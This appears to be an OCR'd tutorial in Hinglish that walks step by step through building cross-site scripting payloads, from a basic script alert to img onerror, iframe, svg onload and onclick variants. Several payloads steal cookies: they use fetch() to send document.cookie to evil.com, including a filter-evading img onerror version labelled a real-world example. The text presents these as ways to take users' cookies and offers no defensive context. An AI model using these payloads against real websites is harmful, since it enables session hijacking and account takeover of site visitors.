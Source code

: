 # 💣 XSS Payload Banana – Step by Step

🔹 Step 1: Start karo <script> tag se

Yeh browser ko batata hai ke ab JavaScript chalne wali hai.

**<script>**

🔹 Step 2: JavaScript code likho uske andar

Sabse simple payload hota hai **alert('XSS')** — isse popup aata hai.

**<script>
alert('XSS');
</script>**

🔹 Step 3: End karo </script> se

Yeh batata hai ke JavaScript ka block khatam ho gaya.

---

### ✅ Final Payload:

**<script>alert('XSS');</script>**

---

### 🔥 Advanced Payload Example:

Agar tum cookie nikalna chahte ho:

**<script>
fetch("https://evil.com/steal?c=" + document.cookie);
</script>**

Yahan:

document.cookie → user ki cookie le raha hai

fetch() → us cookie ko attacker ki site par bhej raha hai

---

### ⚠️ Bonus Tip:

Kayi websites <script> block karti hain. Tab tum alternate technique use karte ho:

**<img src=x onerror=alert('XSS')>**

Yahan:

**<img>** toh allow hai

**onerror** JavaScript chala deta hai jab image load na ho

# 🔰 1. <img> tag ke saath XSS Payload

**<img src="x" onerror="alert('XSS')">**

### ✅ Kya ho raha hai?

**src="x"** → image load nhi ho paayi

**onerror="..."** → jab error aaya toh JavaScript chali

Isme " quotes use hue hain attribute values ke liye

Aur 'XSS' single quotes alert ke message mein

---

### 🔰 2. <iframe> tag ke saath XSS Payload

**<iframe src="javascript:alert('XSS')"></iframe>**

Kuch browsers allow nhi karte, lekin testing ke liye useful hai

---

### 🔰 3. <svg> + onload

**<svg onload="alert('XSS')"></svg>**

svg graphics ke liye hota hai, lekin onload ke through JavaScript chala sakte ho

---

### 🔰 4. Anchor Tag <a> with onclick

**<a href="#" onclick="alert('XSS')">Click me</a>**

Jab banda is link pe click kare, XSS payload trigger hoga

---

## 📌 "Double Quotes" aur 'Single Quotes' ka use:

Situation	Use

HTML attribute ke liye	"..." double quotes

JavaScript string ke liye	'...' single quotes ya double bhi chal jaata hai


Example:

**<img src="x" onerror="alert('Hello')">**

**"x"** → image path

**onerror="alert('Hello')"** → **outer quotes "..."** (HTML)

inner 'Hello' → (JavaScript)

---

### 📌 + ka use kab hota hai?

**+** ka use hota hai string concatenate karne ke liye JavaScript mein.
Matlab, do cheezein jorna.

Example:

**<script>
  fetch("https://evil.com/steal?cookie=" + document.cookie);
</script>**

**"https://..."** ek string hai

**document.cookie** second part

**+** dono ko jod raha hai

### Result: **https://evil.com/steal?cookie=abc123xyz** (cookie wali URL ban gayi)

---

### ✅ Real-World Example: Pure HTML Based XSS (no <script>)

```<img src="x" onerror="fetch('https://evil.com?c='+document.cookie)">```




